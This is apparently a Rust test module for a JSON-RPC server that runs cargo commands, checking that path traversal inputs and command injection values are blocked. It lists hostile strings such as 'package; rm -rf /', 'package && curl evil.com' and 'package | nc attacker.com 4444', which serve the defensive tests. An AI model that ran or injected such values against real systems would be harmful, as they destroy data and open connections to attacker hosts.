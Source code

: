 ```rust
#[cfg(test)]
mod tests {
    use super::*;

    #[tokio::test]
    async fn test_directory_traversal_protection() {
        let server = create_test_server_with_default_config().await;

        let malicious_requests = vec![
            ("../../../etc/passwd", "Path traversal attempt"),
            ("..\\..\\..\\windows\\system32", "Windows path traversal"),
            ("/etc/passwd", "Absolute path access"),
            ("C:\\Windows\\System32", "Windows system access"),
        ];

        for (malicious_path, description) in malicious_requests {
            let request = serde_json::json!({
                "jsonrpc": "2.0",
                "method": "cargo_build",
                "params": {
                    "target": malicious_path
                },
                "id": 1
            });

            let response = server.handle_request(request).await;

            assert!(response["error"].is_object(), "Failed to block: {}", description);
            assert_eq!(response["error"]["code"].as_i64().unwrap(), -32007);
        }
    }

    #[tokio::test]
    async fn test_command_injection_protection() {
        let server = create_test_server_with_default_config().await;

        let injection_attempts = vec![
            "package; rm -rf /",
            "package && curl evil.com",
            "package | nc attacker.com 4444",
            "package`rm -rf /`",
            "package$(rm -rf /)",
        ];

        for injection in injection_attempts {
            let request = serde_json::json!({
                "jsonrpc": "2.0",
                "method": "cargo_add",
                "params": {
                    "package": injection
                },
                "id": 1
            });

            let response = server.handle_request(request).await;

            assert!(response["error"].is_object(), "Failed to block injection: {}", injection);
            assert_eq!(response["error"]["code"].as_i64().unwrap(), -32007);
        }
    }

    #[tokio::test]
    async fn test_resource_limit_enforcement() {
```